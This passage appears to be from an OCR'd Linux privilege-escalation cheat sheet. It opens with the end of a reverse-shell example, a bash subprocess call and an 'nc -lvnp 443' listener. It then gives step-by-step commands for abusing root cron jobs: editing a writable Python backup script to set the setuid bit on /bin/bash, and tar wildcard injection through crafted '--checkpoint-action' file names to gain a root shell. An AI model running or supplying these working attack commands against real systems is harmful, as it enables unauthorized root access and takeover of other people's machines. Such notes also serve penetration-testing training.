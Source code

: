 ```ps1
p=subprocess.call(["/bin/bash","-i"]);

// Replace the IP & Port 

// Save & Exit the Script
```
Attacker

```ps1
nc -lvnp 443
```

OR

Target

```ps1
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import os

os.system("chmod +s /bin/bash")

// Save & Exit the Script

Wait a While
/bin/bash -p
id && whoami
```

Example 4

Privilege Escalation via Tar Bash Script (WildCards)

```ps1
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/mysql-db-backup.sh
cat /usr/bin/local/mysql-db-backup.sh
Output of Script:
--------------------------------
#!/bin/bash

cd /var/www/html/
tar czf /tmp/dbbackup.tar.gz *
--------------------------------
cd /var/www/html/
echo "#!/bin/bash" > priv.sh
echo "chmod +s /bin/bash" >> priv.sh
chmod +x priv.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=sh\ priv.sh
Wait a while
/bin/bash -p
id && whomai
```
Example 5
